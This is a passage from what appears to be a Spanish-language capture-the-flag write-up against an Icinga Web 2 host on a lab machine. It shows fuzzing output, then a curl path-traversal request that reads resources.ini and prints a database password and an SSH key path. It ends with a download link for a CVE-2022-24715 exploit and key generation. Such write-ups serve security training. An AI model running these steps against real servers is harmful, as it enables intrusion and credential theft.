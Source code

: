 ```null
=====================================================================

000000161:   200        13 L     32 W       225 Ch      "resources"                                                                                                                                     
000000078:   200        16 L     31 W       285 Ch      "config"                                                                                                                                        
000000634:   200        3 L      7 W        52 Ch       "groups"                                                                                                                                        
000004986:   200        3 L      7 W        52 Ch       "authentication"                                                                                                                                
000024018:   200        5 L      13 W       98 Ch       "roles"                                                                                                                                         

Total time: 0
Processed Requests: 26308
Filtered Requests: 26303
Requests/sec.: 0
```

Las credenciales se encuentran en ```/resources```

```null
curl -s -X GET http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini
[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0"

[kali]
type = "ssh"
user = "kali"
private_key = "/etc/icingaweb2/ssh/kali"
```

Existe un CVE asociado para esta versión. Me descargo el exploit para [CVE-2022-24715](https://raw.githubusercontent.com/JacobEbben/CVE-2022-24715/main/exploit.py). Genero una clave ```id_rsa``` y ejecuto

```null
ssh-keygen -t rsa -m PEM
```

```null
mv ~/.ssh/id_rsa .
```
